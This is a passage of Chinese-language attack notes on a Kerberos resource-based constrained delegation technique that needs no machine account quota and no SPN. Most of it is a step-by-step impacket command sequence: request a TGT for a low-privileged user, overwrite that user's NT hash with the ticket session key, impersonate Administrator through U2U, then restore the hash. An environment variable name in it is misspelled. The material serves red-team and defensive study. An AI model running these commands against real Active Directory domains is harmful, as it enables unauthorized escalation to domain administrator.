 [![](assets/1702372846-418a5e3c015f48af5d3db7f6cc596111.png)](https://xzfile.aliyuncs.com/media/upload/picture/20221124123631-9197cea6-6bb1-1.png)

#### 无MAQ时的新利用方式

当用户具有A机器的写权限，但是无法新建机器利用rbcd，且当前用户没有可用的SPN时，可以使用该技术。该技术还未并入主进程。

使用UPN替代SPN进行rbcd。流程如下：

用test用户的权限请求模拟administrator用户的服务票据，仅在rbcd情况下有效。且获取TGT后要将TGT的Sessionkey改为test的hash。否则TGS无法解密

```plain
#请求test/test用户的TGT
getTGT.py -hashes :$(pypykatz crypto nt 'password') test/test
#查看TGT里面的Ticket Session Key
describeTicket.py 'TGT.ccache' | grep 'Ticket Session Key'
#将test/test用户的hash改为TGTSessionKey
smbpasswd.py -newhashes :TGTSessionKey test/test:'password'@'dc01'
#通过委派模拟为administrator用户
KRBR5CCNAME='TGT.ccache'
getST.py -u2u -impersonate Administrator -k -no-pass test/test
#还原test/test用户的hash
smbpasswd.py -hashes :TGTSessionKey -newhashes :OldNTHash test/test@'dc01'
```

